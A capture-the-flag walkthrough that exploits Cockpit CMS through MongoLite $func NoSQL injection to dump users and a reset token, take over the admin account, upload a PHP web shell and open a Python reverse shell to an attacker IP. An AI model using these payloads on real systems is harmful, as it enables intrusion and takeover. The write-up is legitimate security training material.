## Enumeration

### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**



We known cms is Cockpit then look google for any exploit!

we got this article [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

[http://10.10.59.7/auth/login](http://10.10.59.7/auth/login) intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)



we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}



As successfully we got token

**Step 3: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!





Done! next lets login

Dashboard


## Time to Reverse shell

Go to finder and click create ..file



create a file shellme.php



create a file shellme.php



and edit the file enter php payload

```php
<?php
        echo shell_exec($_REQUEST['cmd']);
?>
```


save it and open it



yeah! we did lets get reverse shell with python3 payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.xx.xxx",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```



